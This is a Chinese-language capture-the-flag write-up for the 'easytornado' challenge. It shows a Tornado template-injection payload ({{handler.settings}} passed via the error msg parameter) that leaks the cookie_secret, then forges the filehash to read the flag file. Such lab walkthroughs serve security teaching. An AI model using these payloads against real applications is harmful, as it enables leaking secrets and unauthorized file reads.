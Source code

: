 
---


---


---


---


## 四、easytornado

> 

 

<h3>解题方法：</h3>
1、Tornado 框架漏洞、MD5加密


> 
<h3>过程：</h3>
知道了文件名了

MD5的生成方法
我们已经知道了文件名，就还要找到cookie_secret

<hr/>
本关提示是Tornado 框架
网上相关框架漏洞，可用{{handler.settings}}访问配置文件
看见上面页面中有file?filename=传参
构造payload：/file?filename={{handler.settings}}
发现报错了

 并有error?msg=进行传参
尝试构造/error?msg={{handler.settings}}
爆出了cookie_secret

b10655cb-3884-492c-b534-4feff4790db3
<hr/>
 前面得到的MD5(Cookie_secret+MD5(filename) )
Cookie_secret=b10655cb-3884-492c-b534-4feff4790db3
MD5(/fllllllllllllag)  =3bf9f6cf685a6dd8defadabfb41a03a1

 
所以
MD5(Cookie_secret+MD5(filename) )=（b10655cb-3884-492c-b534-4feff4790db33bf9f6cf685a6dd8defadabfb41a03a1）

 
得到的MD5为
4f91aebe3800a21135e140d4f94424e1

<hr/>
将flag.txt页面的参数构造为访问/fllllllllllllag的参数
file?filename=/fllllllllllllag&amp;filehash=4f91aebe3800a21135e140d4f94424e1

 <img alt="" height="235" src="https://img-blog.csdnimg.cn/d5a673c80bb648f1997ea2ad13ebcb5d.png" width="1200"/>
 


---

